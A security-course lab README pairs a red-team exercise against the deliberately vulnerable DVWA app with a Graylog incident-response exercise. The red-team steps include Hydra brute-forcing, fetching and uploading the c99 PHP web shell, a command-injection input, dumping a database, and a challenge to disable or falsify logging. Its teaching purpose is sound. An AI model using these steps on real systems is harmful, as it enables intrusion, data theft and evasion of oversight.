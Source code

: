 # Week 4 - AuditD and logging
This week we are using DVWA for our incident response demo again. DVWA provides a vulnerable webapp that is ready to be hacked out of the box. Graylog will act as our logging server.

## Presentation
AuditD and logging systems: 

## Setup demo
### Init
0. Install docker and docker-compose

### Spin up demo
0. docker-compose up -d

### DVWA WebGUI setup
0. Browse to `http://dvwa.hackinglab.beer:8080` 
0. Login
    1. username: admin
    1. password: password
0. Select "DVWA security" on the left
0. Set the security level to "low"
0. Continue to red teaming section

### Graylog Webgui setup
0. Browse to `http://dvwa.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin
0. Select "System" at the top then "Inputs"
0. Select "Beats" for input type and select "Launch new input"
    1. Select node
    1. Enter "Beats input" for title
    1. Select "save"

## Perform red teaming
### Nikto scanner
0. Spin up Kali Linux VM
0. Open terminal
0. `nikto -host http://dvwa.hackinglab.beer`

### Hydra brute force
0. `hydra -l admin -P /usr/share/dirb/wordlists/small.txt dvwa.hackinglab.beer -s 8080 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V`

### Zip, upload and unzip c99.php
0. `wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php`
0. `gzip -f c99.php`
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter `8.8.8.8; /bin/gunzip -v ../../hackable/uploads/c99.php` into "Enter ip address"
0. Browse to http://dvwa.hackinglab.beer:8080/hackable/uploads/c99.php

### Host situation awareness
0. Get current user: whoami
0. Get ip info: ip a
0. Get hostname: hostname
0. Get list of users: cat /etc/passwd
0. Get connection info: ss -l -n -t
0. Get process list: ps aux
0. Get known hosts: arp -a

### Dump database
0. `mysql -u root -e "show databases;"`
    1. There is no root password
0. `mysql -u root -e "use dvwa; show tables"`
0. `mysqldump -u root --database dvwa > dump.sql`
0. Use c99.php web shell to download dump

## Incident reponse demo
### Connecting to Graylog
Browse to `http://dvwa.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin

### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system(OS) of the attacked machine?
0. What is the kernel of the attacked machine?
0. What is the timezone of the attacked machine?
0. What is the IP address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What network services are listening on the attcked machine? -- include ports
0. What users are on the attacked machine?

### Become the cyber detective
0. What are the version numbers of all the listening services?
0. Do the services have any known vulnerabilities? What sources/tools did you use?
0. Where are the web server logs located?
0. What is the diff between the error.log and access.log? What information do these logs provide?
0. What are the user permissions of the log files? Why does this matter?
0. What is the timezone and time format of the webservers logs? Why does this matter?
0. What is the hackers's IP address?
0. What is the hacker's user-agent?
0. What is the operating system(OS) of the hacker's machine?
0. What webshell did the attacker use? 
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Give a brief description how the attacker stole the data?
0. Lookup three mitigations for next week.


## IR challenge
0. Browse to `http://dvwa.hackinglab.beer` 
0. Login
    1. username: admin
    1. password: admin
0. Select "Dashboard" at the top
0. Select "Create Dashboard" 
    1. Enter a name
    1. Enter a description
    1. Select "Save"
0. Select your new dashboard
0. Create widgets to display:
    1. Histogram of log data
    1. Histogram of traffic
    1. Top 10 user-agents from web logs
    1. Top 10 operating systems from web logs
    1. Top 10 browsers from web logs
    1. Top 10 IP addresses from web logs
    1. Top 10 URL's visited from web logs
    1. Top 10 IP from SSH logs
    1. Widget of your choosing to display command injection


## Red team challenge
### Disable logging
0. Easy: Discover a way to disable the logging feature between DVWA and Graylog. 
0. Hard: Discover a way to modify the logging to hide your activities.
    1. The logging mechanism must still send logs

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html
* http://docs.graylog.org/en/2.4/pages/installation/docker.html
* https://www.elastic.co/guide/en/elasticsearch/reference/current/docker.html
* https://hub.docker.com/r/graylog2/graylog/
